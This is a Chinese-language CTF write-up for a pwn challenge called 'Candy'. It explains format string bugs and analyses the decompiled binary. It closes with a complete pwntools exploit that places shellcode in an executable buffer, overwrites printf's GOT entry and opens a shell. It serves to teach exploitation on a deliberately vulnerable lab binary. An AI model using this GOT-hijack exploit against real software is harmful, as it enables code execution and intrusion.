

# Candy

- 作者：pn1fg
- 参考：-
- 难度：Baby/Trivial/Easy/Normal/Medium/Hard/Expert/Insane
- 分类：Pwn
- 镜像：[svuctf-winter-2023/candy](https://ghcr.io/svuctf/svuctf-winter-2023/candy)
- 端口：70

## 题目描述

## 题目解析

- 源码：[main.c](/build/main.c)
- 考点：格式化字符串，GOT 劫持，shellcode

格式化字符串函数是根据格式化字符串来进行解析的 。**那么相应的要被解析的参数的个数也自然是由这个格式化字符串所控制**。比如说'%s'表明我们会输出一个字符串参数。



在进入 printf 之后，函数首先获取第一个参数，一个一个读取其字符会遇到两种情况

- 当前字符不是 %，直接输出到相应标准输出。
- 当前字符是 %， 继续读取下一个字符
- 如果没有字符，报错
- 如果下一个字符是 %, 输出 %
- 否则根据相应的字符，获取相应的参数，对其进行解析并输出

那么假设，此时我们在编写程序时候，写成了下面的样子

```c
printf("Color %s, Number %d, Float %4.2f");
```

此时我们可以发现我们并没有提供参数，那么程序会如何运行呢？程序照样会运行，会将栈上存储格式化字符串地址上面的三个变量分别解析为

- 1.解析其地址对应的字符串
- 2.解析其内容对应的整形值
- 3.解析其内容对应的浮点值

这基本就是格式化字符串漏洞的基本原理了。

### 查看文件信息

查看文件类型（`file` 命令）：

```shell
$ file pwn
pwn: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=0059aa9c4a34393d23601ab109b1b940e1a6424e, for GNU/Linux 4.4.0, not stripped
```

这是一个64位 ELF 文件（`ELF 64-bit LSB executable`），动态链接（`dynamically linked`），没有去除符号（`not stripped`）

检查文件保护机制（`checksec`命令）：

```shell
$ checksec pwn
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

### 分析漏洞成因

反编译 `main` 函数：

```c
ulong main(void)

{
    sym.init();
    sym.banner();
    sym.vuln();
    return 0;
}
```

反编译 `init` 函数：

```c
void sym.init(void)

{
    sym.imp.setvbuf(_reloc.stdin, 0, 2, 0);
    sym.imp.setvbuf(_reloc.stdout, 0, 2, 0);
    sym.imp.setvbuf(_reloc.stderr, 0, 2, 0);
    sym.imp.mprotect(reloc.puts, 0x1000, 7);
    return;
}
```

`mprotect` 函数原型

```c
int mprotect(const void *start, size_t len, int prot);
```

`mprotect()` 函数把自 start 开始的、长度为 len 的内存区的保护属性修改为 prot 指定的值。这里的 prot 为7，所以这一块内存区则**可读可写可执行**

反编译 `vuln` 函数：

```c
void sym.vuln(void)

{
    ulong format;
    ulong var_4h;

    sym.imp.puts("Input your favorite candy:");
    while( true ) {
        sym.menu();
        sym.imp.__isoc99_scanf(0x402423, &var_4h);
        if (var_4h == 3) {
            sym.imp.puts("There is no Unique Human Adventured");
            return;
        }
        if (3 < var_4h) break;
        if (var_4h == 1) {
            sym.imp.read(0, obj.name, 0x100);
        }
        else {
            if (var_4h != 2) break;
            sym.imp.puts("There\'s a candy voucher in the flag!");
            sym.imp.memset(&format, 0, 0x100);
            sym.imp.read(0, &format, 0x100);
            sym.imp.printf(&format);
        }
    }
    sym.imp.puts("Don\'t you like all of them?");
    return;
}
```

分析一下 `vuln` 函数的逻辑，最外层 `while` 循环，然后输入一个整形值，接下来 `if` 条件判断，当输入的值为 `1` 时，调用 `read` 函数向 `obj.name` 中读入 0x100 字符串，`obj.name` 位于`bss`段上，有可执行权限，当输入的值为 `2` 时，执行的分支语句为：

```c
sym.imp.puts("There\'s a candy voucher in the flag!");
sym.imp.memset(&format, 0, 0x100);
sym.imp.read(0, &format, 0x100);
sym.imp.printf(&format);
```

这里有很明显的格式化字符串漏洞，可以修改任意地址

这题我们的利用思路如下：

- 在 `obj.name` 处填入 shellcode
- 利用格式化字符串漏洞劫持 GOT 表，修改 `printf` 处地址为 `obj.name` 地址即可执行 shellcode，获取 shell

### 编写利用程序

[exp.py](writeup/exp.py)

```python
from pwn import *

context.arch = "amd64"
context.log_level = "debug"

if args['REMOTE']:
    io = remote('IP',port)
else:
    io = process("./candy")

elf = ELF("./candy")

def exec_fmt(pad):
    io = process("./candy")
    io.sendline(b"2")
    io.send(pad)
    info = io.recv()
    io.close()
    return info

fmt = FmtStr(exec_fmt)
offset = fmt.offset
print("offset ===> ", offset)

pad = fmtstr_payload(offset, {elf.got["printf"]: elf.sym["name"]})

io.sendlineafter(b"Command:", b"1")
io.send(asm(shellcraft.sh()))

io.sendlineafter(b"Command:", b"2")
io.sendlineafter(b"flag!\n", pad)

io.interactive()
```
